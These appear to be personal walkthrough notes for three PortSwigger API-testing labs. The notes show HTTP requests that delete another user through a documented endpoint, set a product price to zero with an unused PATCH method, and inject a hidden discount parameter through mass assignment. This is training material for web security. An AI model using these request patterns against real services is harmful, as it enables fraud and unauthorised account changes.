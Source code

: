 # 1. Exploiting an API endpoint using documentation: [Link](https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation)
- Update the email > In Proxy > HTTP history, right-click the `PATCH /api/user/wiener` request and select Send to Repeater.
> The GET method requests a representation of the specified resource. Requests using GET should only retrieve data.
- Find the documentation: `GET /api/ HTTP/2`
- Delete the user: `DELETE /api/user/carlos HTTP/2`


# 2. [Finding and exploiting an unused API endpoint](https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint)
- Update the email > In Proxy > HTTP history, right-click the `GET /api/products/4/price HTTP/2` request and select Send to Repeater.
> The GET method requests a representation of the specified resource. Requests using GET should only retrieve data.
- Change the Method: `PATCH /api/products/1/price HTTP/2` > `"error":"Only 'application/json' Content-Type is supported"`
- Add `Content-Type: application/json` & {"price": 0} in body
- It will update the Price in the Application.
- ![image](https://github.com/user-attachments/assets/2131ee78-052c-417f-b043-c6b6e9b93d09)

# 3: [Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)
- `Mass Assignment vulnerabilities` happen when an application automatically processes user input and assigns it to internal data (like user profiles) without checking what should or shouldn't be updated. This allows attackers to send extra information (like changing their user role to "admin") that the developers didn't intend to allow.
- Identifying hidden parameters: Since mass assignment creates parameters from object fields, you can often identify these hidden parameters by manually examining objects returned by the API.

### Steps:
- Look for the Endpoint, /api/checkout > Observe the Requests (Get/Post)

```JSON
POST request:
{"chosen_products":[{"product_id":"1","quantity":1}]}

Get Request:
{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}

Observe that the JSON structure in the GET response includes a chosen_discount parameter, which is not present in the POST request.
```
- Send Post request to Repeater > Add the `"chosen_discount":{"percentage":0}` Hidden Parameter in JSON & Send it > No Error
- Now, `"chosen_discount":{"percentage":100}` to solve the Lab.

# 4. 
